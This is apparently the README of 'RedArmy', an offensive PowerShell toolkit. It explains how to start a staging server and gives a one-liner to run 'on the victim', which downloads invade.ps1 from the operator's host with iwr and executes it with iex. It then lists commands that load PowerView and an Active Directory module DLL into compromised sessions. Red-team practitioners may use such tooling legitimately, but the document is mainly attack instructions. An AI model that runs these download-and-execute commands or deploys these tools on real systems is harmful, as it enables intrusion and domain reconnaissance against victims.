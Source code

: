 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ ./serve [--port PORT] [--update] <ip>
```

## Usage

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex (iwr -DisableKeepAlive -UseBasicParsing http://<ip>:<port>/invade.ps1)
```

That command will also displayed for you to copy and paste for
convenience. Finally, you can deploy tools with commands like:

```
PS> iex (Get-PowerView) # Load ps1 script into current session
PS> Deploy-PowerView <session> # Load ps1 script into session

PS> Get-ADModuleDLL # Load DLL object into current session
PS> Deploy-ADModuleDLL <session> # Load DLL object into session
```
